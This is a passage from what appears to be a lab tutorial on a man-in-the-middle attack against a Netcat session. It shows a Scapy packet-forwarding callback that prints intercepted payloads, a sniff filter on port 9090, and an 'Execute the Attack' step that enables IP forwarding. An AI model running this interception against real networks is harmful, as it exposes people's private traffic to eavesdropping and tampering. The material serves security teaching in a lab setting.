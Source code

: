             elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
                # Forward packets from B to A without modification
                print("<- Processing packet from B to A", end='')
                sys.stdout.flush()
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum)
                if TCP in newpkt_ip:
                    del(newpkt_ip[TCP].chksum)

                payload_data = None
                if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                    payload_data = newpkt_ip[TCP].payload.load
                    del(newpkt_ip[TCP].payload)

                if payload_data:
                    print(f" | Forwarding data: {payload_data.hex()} ({payload_data.decode('utf-8', errors='ignore')})", end='')
                    newpkt_L3 = newpkt_ip/payload_data
                else:
                    print(" | No TCP payload.", end='')
                    newpkt_L3 = newpkt_ip

                newpkt_L2 = Ether(src=MAC_M, dst=MAC_A) / newpkt_L3
                sendp(newpkt_L2, iface='eth0', verbose=False)
                print(" | Sent M -> A")
                sys.stdout.flush()

        except Exception as e:
            print(f"\nError processing packet: {e}")
            # pkt.show() # Uncomment for detailed packet info on error


    # Define the filter for Netcat port 9090
    f = f"tcp and port 9090 and ((src host {IP_A} and dst host {IP_B}) or (src host {IP_B} and dst host {IP_A}))"
    print(f"Starting sniff on eth0 with filter: {f}")
    sys.stdout.flush()

    # Start sniffing
    pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt, store=0)

    print("\nMITM Netcat Script Stopped.")

    ```

**Phase 3: Execute the Attack**

3.  **Enable IP Forwarding (on Host M):**
    ```bash
    # On Host M terminal
    sudo sysctl net.ipv4.ip_forward=1
    ```
